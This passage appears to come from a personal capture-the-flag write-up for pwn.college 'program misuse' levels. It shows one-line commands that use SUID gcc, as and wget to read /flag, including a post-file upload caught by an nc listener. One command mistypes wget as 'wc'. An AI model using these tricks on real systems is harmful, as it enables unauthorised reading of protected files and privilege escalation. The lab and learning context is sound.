 ### level48

This time we are using `gcc`.

I will make `gcc` force include `/flag` and print out the contents through error. I will just use a random source code c file for source.

```bash
gcc -include /flag a.c
```

### level49

This time we are using `as`.

Same approach as above. Use `-n` option to include `/flag` as the header file and cause `as` to output error messages.

```bash
as -n /flag a.s
```

### level50

This time we are using `wget`.

This is a network downloader. We can establish a server on localhost posting `/flag`, and use `nc` on other terminal to get the file.

```bash
wc --post-file=/flag http://localhost
```

And on the other terminal,

```bash
nc -lp 80
```

Since we are using `http`, port 80 is used.

### level51

This time we are using `ssh-keygen`.

Final level! However, I did not understand the mechanism behind this level as I lack the background knowledge. I referred to the office hour video for the [solution](https://dojo.pwn.college/challenges/misuse), and I am planning to come back to it after I study more in-depth C programming. 

## Final Notes

I got to learn many new Linux commands and utilities in this module. This gave me a rough idea on how hackers could go on to abuse the SUID for *privilege escalation*. With this knowledge gained, let's step forward to the next unit, Assemblies! 

## embryoasm
